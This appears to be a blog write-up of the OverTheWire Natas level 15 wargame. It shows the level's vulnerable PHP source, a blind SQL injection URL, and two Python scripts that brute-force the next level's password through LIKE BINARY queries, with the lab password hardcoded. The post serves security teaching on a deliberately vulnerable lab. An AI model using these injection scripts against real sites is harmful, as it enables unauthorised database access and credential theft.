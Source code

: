 ```yaml
---
layout: post
title:  "Natas Level 15"
date:   2015-09-29 12:10
categories: natas wargame web overthewire
author: Nate
---
```


## NATAS 15

![natas15](/images/natas15.png)

NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

{% highlight html linenos %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.

![username_natas16](/images/natas15_username_natas16.png)

Conveniently for us, natas16 is a valid username.

![username_exists](/images/natas15_username_exists.png)

Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:
https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
{% highlight sql linenos %}
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
{% endhighlight %}

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
{% highlight %}
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
{% endhighlight %}

but that's going to take a long time, and we all value our time.  Instead, I wrote a python script to do it for me.

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
{% endhighlight %}

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

{% highlight python linenos %}
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
{% endhighlight %}

![brute_force](/images/natas15_brute_force.png)

And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
